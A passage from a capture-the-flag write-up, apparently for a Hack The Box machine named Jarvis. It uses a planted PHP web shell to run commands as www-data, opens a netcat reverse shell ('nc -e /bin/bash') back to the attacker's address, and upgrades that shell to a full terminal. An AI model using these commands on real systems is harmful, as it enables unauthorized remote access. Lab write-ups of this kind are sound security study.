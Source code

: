     [*] ending @ 15:08:52 /2019-06-28/
    

Now I can reach it at:

    root@kali# curl http://10.10.10.143/0xdf.php?cmd=id
    Warning: Binary output can mess up your terminal. Use "--output -" to tell 
    Warning: curl to output it to your terminal anyway, or consider "--output 
    Warning: <FILE>" to save to a file.
    root@kali# curl -s http://10.10.10.143/0xdf.php?cmd=id  --output -
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    root@kali# curl -s http://10.10.10.143/0xdf.php?cmd=id  --output - | xxd
    00000000: 7569 643d 3333 2877 7777 2d64 6174 6129  uid=33(www-data)
    00000010: 2067 6964 3d33 3328 7777 772d 6461 7461   gid=33(www-data
    00000020: 2920 6772 6f75 7073 3d33 3328 7777 772d  ) groups=33(www-
    00000030: 6461 7461 290a 0000 0000 0000            data).......
    

It looks like it appended some nulls on the end for some reason, probably a part of the sqli file write. But it still works.

#### Shell

I can use that to get a shell:

    root@kali# curl -s http://10.10.10.143/0xdf.php?cmd=nc+-e+/bin/bash+10.10.14.8+443
    

    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.143.
    Ncat: Connection from 10.10.10.143:37142.
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Shell Upgrade

With either shell, I’ll upgrade with the standard technique:

1.  `python -c 'import pty;pty.spawn("bash")'`
2.  \[ctrl-z\] to background shell
3.  `stty raw -echo`
4.  `fg`
5.  `reset`
6.  Enter if asked for a terminal type.`screen`

Now I have a full terminal, with arrows, tab completion, etc:

    www-data@jarvis:/var/www/html$ 
    

## Priv: www-data –> pepper

### Enumeration
